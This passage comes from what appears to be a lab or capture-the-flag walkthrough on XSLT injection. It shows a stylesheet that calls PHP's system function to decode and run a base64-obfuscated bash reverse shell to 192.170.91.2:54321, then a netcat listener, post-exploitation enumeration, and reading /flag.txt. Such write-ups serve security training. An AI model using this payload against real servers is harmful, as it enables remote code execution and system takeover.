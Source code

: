 test.xsl:
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
  <xsl:template match="/">
    <html>
      <!-- We use the php suffix to call the functions -->
      <xsl:value-of select="php:function('system','echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pPiYgL2Rldi90Y3AvMTkyLjE3MC45MS4yLzU0MzIxIDA+JjEnCg==|base64 -d|bash')" />
        <!-- Output: 'Php Can Now Be Used In Xsl' -->
      </html>
  </xsl:template>
</xsl:stylesheet>
```


> Notice we have added commands to decode and execute the reverse shell payload on the backend server.

Start a Netcat listener on the attacker machine:

Command:
```bash
nc -lvp 54321
```

- Upload the modified XSL file:


- Now click on the Transform! button
- Notice the page keeps on loading
- Check the terminal where the Netcat listener was running

> We have received back a reverse shell session from the target server.

Step 12: Retrieve the flag.

Now that we have a shell session on the target server, we can execute OS commands and perform some enumeration:

Commands:
```bash
id
ps aux
```


Run the following command to locate the flag file:

Command:
```bash
find / -iname *flag* 2>/dev/null
```

> The flag is present in the /flag.txt file.

Read the contents of the flag file:

Command:
```bash
cat /flag.txt
```
